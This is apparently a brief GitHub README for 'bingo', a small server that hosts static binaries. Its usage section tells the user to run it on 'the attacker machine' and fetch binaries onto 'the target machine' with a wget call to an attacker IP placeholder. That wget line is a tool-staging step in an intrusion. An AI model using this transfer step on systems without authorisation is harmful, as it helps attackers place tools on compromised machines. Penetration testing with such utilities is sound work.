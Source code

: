 # bingo

**bingo** is a server for static binaries.

## Installation

```bash
pipx install git+https://github.com/luskabol/bingo.git@main
```

## Usage

1. **On the attacker machine**
    ```bash
    bingo <port> # Default is 8000
    ```

2. **On the target machine**
    ```bash
    wget "http://<your-ip-address>:<port>/get/<binary-name>"
    ```
